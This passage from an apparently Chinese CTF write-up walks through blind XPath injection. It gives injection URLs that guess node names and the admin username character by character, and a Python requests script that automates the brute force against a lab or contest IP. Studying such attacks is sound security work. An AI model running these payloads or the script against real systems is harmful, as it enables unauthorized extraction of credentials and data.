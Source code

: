 `127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=1]),1,1)='u' or '1'='1&pwd=fake`

`127.0.0.1/xpath/index.php?name=1' or substring(name(/root/*[position()=2]),1,1)='s' or '1'='1&pwd=fake`

result: users,secret

重复上述步骤,直到猜解出所有节点.最后来猜解节点中的数据或属性值.

猜解id为1的user节点下的username值,

`127.0.0.1/xpath/index.php?name=1' or substring(/root/users/user[id=1]/username,1,1)='a' or '1'='1&pwd=fake`

...

result: admin

---


写脚本开始跑
首先判断根下节点数
因为是GET传参，直接访问`http://114.55.165.246:8082/?username=1' or count(/*)=1 or '1'='1&password=1&submit=登录`
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_59ec55be6edbba00deaba9e38ca5e8d6.jpg)

这个结果应该是return 1，即根下有一个节点

如果换成`...username=1' or count(/*)=2 or '1'='1...`则会返回登录失败，即结果为return 0.

继续猜测第一级节点，用脚本跑
```python
# -*- coding: utf-8 -*-
import requests
import re

baseurl = "http://114.55.165.246:8082/?username="

s = "qwertyuiopasdfghjklzxcvbnm1234567890"

result = []

for j in range(1,10):
    for i in range(0, 36):
        payload = "1' or substring(name(/!XXXX!*[position()=1]),"
        payload += str(j)
        payload += ",1)='"
        payload += s[i]
        payload += "' or '1'='1"
        end = "&password=admin&submit=登录"

        url = baseurl + payload + end

        res = requests.get(url).content.decode("utf-8").split("</html>")[1]
        if (re.search("you",res)):
            result.append(s[i])
            print(s[i] + "--------->" + res.replace("\r\n" , ""))
            break

print(result)

# !####! 换成目录即可

```
结果爆出第一级为root
![](http://err0r.top/wp-content/uploads/2020/11/wp_editor_md_00aedc93654a33bee2e12228fd47f39c.jpg)
